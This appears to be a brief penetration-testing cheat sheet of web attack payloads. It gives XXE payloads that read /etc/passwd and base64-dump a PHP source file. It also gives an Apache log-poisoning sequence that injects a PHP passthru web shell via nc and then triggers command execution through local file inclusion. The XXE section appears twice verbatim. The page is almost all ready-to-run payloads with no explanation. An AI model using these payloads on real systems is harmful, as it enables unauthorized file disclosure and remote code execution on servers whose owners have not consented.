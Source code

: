 ```yaml
---
title: web
weight: 20
---
```


# XML External Entity (XXE)
----------------

Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```
----------------

# LFI via nc
----------------

logfile injection
```shell
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        
Afterwards include the it via lfi
```shell
?lfi_file=/var/log/apache2/access.log&cmd=<command>
```
----------------

# XML External Entity (XXE)
----------------

Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```
----------------